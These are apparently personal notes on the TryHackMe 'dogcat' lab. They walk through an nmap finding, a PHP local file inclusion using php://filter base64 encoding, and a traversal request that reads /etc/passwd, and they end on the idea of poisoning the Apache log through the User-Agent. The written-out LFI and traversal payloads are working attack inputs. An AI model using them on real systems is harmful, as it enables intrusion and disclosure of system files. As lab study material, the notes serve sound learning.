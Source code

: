 Links: [[00 - Global Index (Start Here!)]] [[03 - Try Hack Me]]

# [dogcat]
## Notes
---
nmap scan
two ports open 22, 80

looking at the webpage it seems to be calling a file.
Trying to get it to call it self gives an error about using include() in php?
IDK php but i know you can do a filter and base64 encode it.
https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/

```bash
http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index
```
Using this on dog as the input (for a easy POC). Give a b64 blob.
```b64
PGltZyBzcmM9ImRvZ3MvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K
```
For everyone not fluent in bas64:
```php
<img src="dogs/<?php echo rand(1, 10); ?>.jpg" />
```
Using this for index gives back the pages source code which means we have an LFI!
```bash
GET /?view=php://filter/convert.base64-encode/resource=dog/../index
```
Looking at the source code if the parameter "ext" is not provided then every string will have .php added to the end.
To leak out /etc/passwd
```bash
GET /?view=php://filter/convert.base64-encode/resource=dog/../../../../../../../etc/passwd&ext=
```
Using this method you can render the apache2 log file.
Which shows the user-agent.
Instead of sending out user-agent why not send php code that makes a new get parameter.